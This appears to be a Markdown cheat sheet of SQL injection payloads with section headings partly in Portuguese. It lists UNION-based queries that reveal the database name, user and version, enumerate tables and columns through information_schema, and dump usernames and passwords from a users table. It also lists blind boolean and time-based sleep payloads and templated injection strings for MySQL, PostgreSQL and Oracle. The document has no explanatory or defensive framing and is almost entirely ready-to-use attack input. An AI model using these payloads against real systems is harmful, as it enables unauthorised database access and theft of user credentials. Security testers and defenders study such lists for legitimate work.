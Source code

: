 ```
' UNION SELECT null, null, database(), user(), @@version  -- //

' UNION SELECT null, null, database(), user(), @@version  --

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() --

' UNION SELECT null, username, password, description, null FROM users -- //

' UNION SELECT null, username, password, description, null FROM users --

### Blind SQLi

AND 1=1 -- //

AND 1=1 --

AND IF (1=1, sleep(3),'false') -- //

AND IF (1=1, sleep(3),'false') --
```
#### Payload Geral
```
{payload}--
{payload};--
{payload}#
'||{payload}--
'||{payload}#
"{payload}--
"{payload}#
' AND {payload}--
' OR {payload}--
' AND EXISTS({payload})--
' OR EXISTS({payload})--
```
#### MySQL 
```
' UNION ALL SELECT {payload}--
' UNION SELECT {payload}--
' OR (SELECT {payload}) IS NOT NULL--
' OR (SELECT {payload}) IS NULL--
'||{payload}--
"||{payload}--
'||(SELECT {payload})--
"||(SELECT {payload})--
```
#### PostgreSQL
```
' UNION ALL SELECT {payload}--
' UNION SELECT {payload}--
' OR (SELECT {payload}) IS NOT NULL--
' OR (SELECT {payload}) IS NULL--
```
#### Oracle
```
' UNION ALL SELECT {payload} FROM dual--
' UNION SELECT {payload} FROM dual--
' OR (SELECT {payload} FROM dual) IS NOT NULL--
' OR (SELECT {payload} FROM dual) IS NULL--
'||({payload})--
```